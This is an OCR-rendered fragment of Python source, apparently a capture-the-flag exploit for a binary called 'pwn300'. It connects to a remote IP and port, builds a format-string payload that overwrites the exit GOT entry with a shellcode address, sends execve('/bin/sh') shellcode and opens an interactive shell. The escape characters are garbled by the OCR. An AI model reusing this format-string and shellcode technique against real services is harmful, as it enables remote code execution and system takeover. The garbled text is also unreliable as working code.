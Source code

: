 &nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;FILL_FORMAT(payload,&nbsp;byte_value&nbsp;&&nbsp;0xff,&nbsp;addr_pos&nbsp;+&nbsp;1,&nbsp;value&nbsp;&gt;&gt;&nbsp;8,&nbsp;count&nbsp;-&nbsp;1)

DELAY&nbsp;=&nbsp;0.1
JMP06&nbsp;=&nbsp;&#39;xebx06&#39;
SHELLCODE&nbsp;=&nbsp;"jx0bXx991xc9Rh//shh/binx89xe3xcdx80"

def&nbsp;RAW_WITH_DELAY(s):
&nbsp;&nbsp;&nbsp;&nbsp;sleep(DELAY)
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;str(s)

def&nbsp;NONE_WITH_DELAY(s):
&nbsp;&nbsp;&nbsp;&nbsp;sleep(DELAY)
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;&#39;&#39;


TARGET&nbsp;=&nbsp;(&#39;218.2.197.235&#39;,&nbsp;10102)

SHELLCODE_ADDR&nbsp;=&nbsp;0x08049180
EXIT_GOT&nbsp;=&nbsp;0x8049120

#&nbsp;local
#&nbsp;TARGET&nbsp;=&nbsp;&#39;./pwn300&#39;


io&nbsp;=&nbsp;zio.zio(TARGET,&nbsp;print_write=NONE_WITH_DELAY,&nbsp;print_read=False)

payload&nbsp;=&nbsp;&#39;&#39;
payload&nbsp;=&nbsp;PREPARE_FORMAT(payload,&nbsp;EXIT_GOT)
last&nbsp;=&nbsp;len(payload)
payload,&nbsp;last&nbsp;=&nbsp;FILL_FORMAT(payload,&nbsp;last,&nbsp;7,&nbsp;SHELLCODE_ADDR)

#&nbsp;change&nbsp;exit&nbsp;got&nbsp;to&nbsp;shellcode&nbsp;addr
io.writeline(&#39;2&#39;)
io.writeline(payload)
io.writeline(&#39;3&#39;)

#&nbsp;call&nbsp;exit&nbsp;to&nbsp;trigger&nbsp;shellcode
io.writeline(&#39;2&#39;)
io.writeline(SHELLCODE)
io.writeline(&#39;4&#39;)

io.interact()</pre>
